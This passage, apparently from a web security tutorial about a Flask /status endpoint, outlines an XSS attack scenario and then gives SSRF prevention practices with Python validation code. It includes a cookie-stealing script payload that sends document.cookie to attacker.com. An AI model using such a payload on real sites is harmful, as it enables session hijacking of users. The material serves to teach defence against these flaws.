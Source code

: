 1. **Identify the Vulnerable Rendering:**
   The attacker notes that the `content` fetched from the API is rendered without proper sanitization.

2. **Inject Malicious Content:**
   By influencing the API response (directly or indirectly), the attacker ensures that the `content` includes malicious scripts.

   **Malicious Content Example:**
   ```html
   <script>document.location='http://attacker.com/steal-cookie?c='+document.cookie;</script>
   ```

3. **User Interaction:**
   When users access the `/status` page for the malicious `city`, their browsers execute the injected script, leading to data theft or other malicious outcomes.

---

## **3. Best Practices to Prevent Such Vulnerabilities**

### **a. Preventing SSRF**

1. **Input Validation and Sanitization:**
   - **Whitelist Approach:** Restrict the `city` parameter to allow only expected values (e.g., letters, no URL schemes or special characters).
   - **Regular Expressions:** Use regex to validate the format of the input.

   ```python
   import re
   from flask import abort

   @app.route('/status')
   def status():
       city = request.args.get('city')
       if city:
           if not re.match("^[a-zA-Z\s]+$", city):
               abort(400, description="Invalid city name.")
           # Proceed with API request
   ```

2. **Use of Safe URL Builders:**
   Instead of concatenating strings to form URLs, use libraries that safely construct URLs, preventing injection of unexpected schemes or hosts.

   ```python
   from urllib.parse import urljoin

   base_url = 'http://api.globalbank.com/status/'
   city_safe = requests.utils.quote(city)
   api_url = urljoin(base_url, city_safe)
   ```

3. **URL Scheme Validation:**
   Ensure that only intended URL schemes are used (e.g., `http` or `https`) and reject any that attempt to use other schemes like `file`, `ftp`, etc.
